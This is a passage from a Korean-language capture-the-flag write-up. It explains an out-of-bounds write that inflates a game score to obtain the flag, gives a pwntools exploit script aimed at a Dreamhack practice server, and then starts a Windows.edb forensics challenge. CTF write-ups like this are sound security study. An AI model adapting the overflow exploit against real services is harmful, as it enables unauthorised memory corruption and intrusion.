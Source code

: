 고작해야 3000점인데 우리는 oob를 이용해서 점수의 6번째 바이트를 1로 덮었으니까 점수가 엄청나게 큰 값이 되어있을거고 플래그를 얻을 수 있게 된다.

```python
from pwn import *

#context.log_level = "debug"

sla = lambda x, y : r.sendlineafter(x, y)
sa = lambda x, y : r.sendafter(x, y)
s = lambda x : r.send(x)
rvu = lambda x : r.recvuntil(x)
rv = lambda x : r.recv(x)

#r = process("./prob", stdout=PTY, stdin=PTY)
r = remote("host3.dreamhack.games", 21255)

for i in range(20):
    sla("> ", "1")
    s("q")
    sa("name : ", p32(0xfffffff9)*14)

sla("> ", "1")
s("q")

r.interactive()
```

<br><br><br>

# P - **Windows Search**

Windows.edb파일 하나만 준다. 약간의 구글링으로 저 파일을 분석하는 도구를 찾을 수 있었고 다운받아서 열어보았다.

